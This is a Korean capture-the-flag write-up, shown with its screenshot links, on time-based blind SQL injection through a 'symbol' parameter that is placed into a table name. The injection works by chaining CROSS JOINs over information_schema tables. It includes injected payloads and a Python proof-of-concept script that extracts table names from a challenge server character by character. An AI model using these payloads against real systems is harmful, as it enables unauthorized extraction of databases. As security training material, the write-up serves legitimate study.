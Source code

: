 일단 문제 페이지를 보면 위와 같이 비트코인, 이더리움, 리플, 도지 코인의 현재 가격을 출력해주는 것을 확인할 수 있습니다.

![](https://media.discordapp.net/attachments/857916308892418071/887238991072591893/2.png?width=1780&height=1075)

그리고 Trade 버튼을 클릭하면 특정 코인의 가격을 5초 간격으로 나타나는 지표를 확인할 수 있으며, 네트워크 창을 확인 해보면 api(ajax_ticks.php?symbol=btc)로 요청 해서 코인의 현재 가격을 가져 오는 것을 확인할 수 있습니다. 

![](https://media.discordapp.net/attachments/857916308892418071/887238987121577984/3.png?width=1780&height=1075)

`/ajax_ticks.php?symbol=btc`로 접속을 하면 위와 같이 결과 값을 반환하는 것을 확인할 수 있습니다.

![](https://media.discordapp.net/attachments/857916308892418071/887238985599033344/4.png?width=1780&height=1075)

그래서 여기가 SQL Injection 공격 포인트라 생각하고, 여러 페이로드를 보내면서 익스를 시도 하였지만 성공하지 못 했습니다. 일단 대부분에 특수 문자가 막혀 있기 때문에 싱글 쿼터 및 함수 자체를 사용할 수 없었습니다.

```sql
SELECT ~~ FROM price_$symbol limit 0, 10
```
하지만 symbol의 값이 where 절에 들어가는 것이 아닌 위와 같이 테이블 명에 들어가기 때문에 싱글 쿼터를 우회할 필요가 없었으며 익스플로잇은 join을 이용해 테이블 여러개를 조인 시켜 줄 경우에 발생하는 에러 또는 슬립 현상을 이용해 Error/Time Based SQL Injection을 이용해야 했습니다. 저는 슬립 현상을 이용해서 타임어택을 하였지만 효율성은 에러를 이용하는 것이 좋아 보입니다.

![](https://media.discordapp.net/attachments/857916308892418071/887238968624689182/5.png?width=1794&height=209)

```sql
select * from users cross join information_schema.tables cross join information_schema.columns on 1=0;
select * from users cross join information_schema.tables cross join information_schema.columns on 1=1;
```
일단 로컬에서 cross join을 이용해 메타 테이블들을 이어주는 퀴러를 위와 같이 작성 해 테스트를 해보았습니다. 사진을 보면 거짓일 때는, 쿼리 실행이 바로 종료 되지만, 참일 때는 오랜시간 슬립 현상이 발생하는 것을 확인할 수 있었습니다. 

그렇기 때문에 이를 이용해서 Time Based SQL Injection을 이용해 디비 정보를 모두 추출하면 됩니다.

![](https://media.discordapp.net/attachments/857916308892418071/887238988874784768/6.png?width=1794&height=1063)

```sql
btc cross join information_schema.columns cross join information_schema.tables on 1=1
```
그래서 `cross join`을 이용하여 위와 같이 메타 테이블 2개를 엮어주는 쿼리를 전송해주니 약 4초 정도 Sleep이 발생하는 것을 볼 수 있습니다. 이제 이를 이용해서 Time Based SQL Injection을 하면 될 거 같습니다 :) 

```python
import requests
import string

url = "http://15.165.49.138:26354/ajax_ticks.php?symbol=btc cross join information_schema.statistics cross join information_schema.processlist cross join information_schema.tables as m cross join information_schema.columns on m.table_name like 0x{}"

leaked = ""
while True:
    for s in string.printable:
        f = url.format((leaked + s + '%').encode().hex())
        r = requests.get(f)
        print(f"C: {s}, T: {r.elapsed}")
```
일단 테이블 명의 첫 글자들을 확인하기 위해 위와 같이 코드를 작성하였습니다. 그리고 문제에서는 테이블/컬럼 명, 레코드 값을 뽑을 때는 두 개의 테이블로는 크기가 부족해서 `statistics`, `processlist` 테이블을 추가로 조인 시켜 주었으며 위와 같이 PoC 코드를 작성해주었습니다.
